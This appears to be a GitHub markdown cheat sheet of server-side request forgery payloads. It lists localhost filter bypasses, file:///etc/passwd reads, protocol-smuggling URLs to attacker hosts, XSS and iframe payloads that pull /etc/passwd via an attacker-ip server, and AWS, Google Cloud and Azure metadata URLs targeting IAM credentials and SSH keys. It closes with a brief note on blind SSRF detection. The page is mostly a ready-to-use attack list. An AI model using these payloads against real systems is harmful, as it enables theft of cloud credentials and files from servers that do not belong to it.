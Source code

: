 ##### SSRF CHEATSHEET

--------------------------------------------------------------------     
Detection:
Check out parameters such as /file=, /path=, /src= to see if the application can send request only to whitelisted applications

Check out if there is PDF or any other file export tool in place which may be vulnerable to SSRF

--------------------------------------------------------------------
__Basic localhost Payloads:__
http://127.0.0.1:port
http://localhost:port
https://127.0.0.1:port
https://localhost:port
http://[::]:port
http://0000::1:port
http://[0:0:0:0:0:ffff:127.0.0.1]
http://0/
http://127.1
http://127.0.1

--------------------------------------------------------------------
__File path:__
/etc/passwd
file:///etc/passwd
file://path/to/file
file://\/\/etc/passwd

--------------------------------------------------------------------
__With other protocols:__
sftp://attacker.com:port/
dict://attacker:port/
tftp://attacker.com:port/
ldap://localhost:port/
gopher://127.0.0.1:port/

--------------------------------------------------------------------
__From XSS:__
\<img src="xxx" onerror="document.write('\<iframe src=file:///etc/passwd>\</iframe>')"/>\
\<link rel=attachment href="file:///etc/passwd">\

--------------------------------------------------------------------
__With iframe injection:__
<?php $file = $_GET['file']; header("location:file://$file");?>
\<iframe src="http://attacker-ip/test.php?file=/etc/passwd">\</iframe>\

--------------------------------------------------------------------
__AWS:__
http://instance-data
http://169.254.169.254
http://169.254.169.254/latest/user-data
http://169.254.169.254/latest/user-data/iam/security-credentials/[ROLE NAME]
http://169.254.169.254/latest/meta-data/
http://169.254.169.254/latest/meta-data/iam/security-credentials/[ROLE NAME]
http://169.254.169.254/latest/meta-data/iam/security-credentials/PhotonInstance
http://169.254.169.254/latest/meta-data/ami-id
http://169.254.169.254/latest/meta-data/reservation-id
http://169.254.169.254/latest/meta-data/hostname
http://169.254.169.254/latest/meta-data/public-keys/
http://169.254.169.254/latest/meta-data/public-keys/0/openssh-key
http://169.254.169.254/latest/meta-data/public-keys/[ID]/openssh-key
http://169.254.169.254/latest/meta-data/iam/security-credentials/dummy
http://169.254.169.254/latest/meta-data/iam/security-credentials/s3access
http://169.254.169.254/latest/dynamic/instance-identity/document

--------------------------------------------------------------------
__Google Cloud:__
http://169.254.169.254/computeMetadata/v1/
http://metadata.google.internal/computeMetadata/v1/
http://metadata/computeMetadata/v1/
http://metadata.google.internal/computeMetadata/v1/instance/hostname
http://metadata.google.internal/computeMetadata/v1/instance/id
http://metadata.google.internal/computeMetadata/v1/project/project-id

--------------------------------------------------------------------
Azure:
http://169.254.169.254/metadata/v1/maintenance
http://169.254.169.254/metadata/instance?api-version=2017-04-02
http://169.254.169.254/metadata/instance/network/interface/0/ipv4/ipAddress/0/publicIpAddress?api-version=2017-04-02&format=text

--------------------------------------------------------------------


##### Blind SSRF vulnerabilities
````
Blind SSRF vulnerabilities arise when an application can be induced to issue a back-end HTTP request to a supplied URL,
but the response from the back-end request is not returned in the application's front-end response.
The most reliable way to detect blind SSRF vulnerabilities is using out-of-band (OAST) techniques.
This involves attempting to trigger an HTTP request to an external system that you control, and monitoring for network interactions with that system.
The easiest and most effective way to use out-of-band techniques is using Burp Collaborator. You can use the Burp Collaborator client.
Simply intercept the requied request and feed it to the intruder then copy the urp collaborator client and paste it inthe referer header
then go to your collaborator client and eatch all the DNS & HTTP requests comming in.
````
Blind SSRF can also be achieved by **SHELLSHOCK VULNERABILITY** 
